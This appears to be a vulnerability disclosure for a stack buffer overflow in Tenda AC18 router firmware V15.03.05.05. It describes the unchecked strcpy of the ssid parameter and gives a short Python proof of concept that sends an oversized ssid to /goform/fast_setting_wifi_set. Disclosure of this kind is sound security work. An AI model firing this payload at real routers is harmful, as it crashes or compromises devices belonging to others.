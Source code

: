 ## Overview

- The device's official website: https://www.tenda.com.cn/product/overview/AC18.html

- Firmware download website: https://www.tenda.com.cn/download/detail-2610.html

## Affected version

V15.03.05.05

## Vulnerability details

The Tenda AC18 V15.03.05.05 firmware has a stack overflow vulnerability in the `form_fast_setting_wifi_set` function. The `src` variable receives the `ssid` parameter from a POST request and is later assigned to the `s` and `dest` variable, which is fixed at 64 bytes. However, since the user can control the input of  `ssid`, the statement `strcpy(dest, s);`and `strcpy(dest, src);` can cause a buffer overflow. The user-provided  `ssid` can exceed the capacity of the `s` and `dest` array, triggering this security vulnerability.

![image-20240305161750438](form_fast_setting_wifi_set.assets/image-20240305161750438.png)

![image-20240305161459140](form_fast_setting_wifi_set.assets/image-20240305161459140.png)

## POC

```python
import requests
ip = '192.168.84.101'
url = f'http://{ip}/goform/fast_setting_wifi_set'

payload = {
    'ssid': 'a' * 1000
}

r = requests.post(url=url, data=payload)
print(r.content)
```

![image-20240305164305678](form_fast_setting_wifi_set.assets/image-20240305164305678.png)
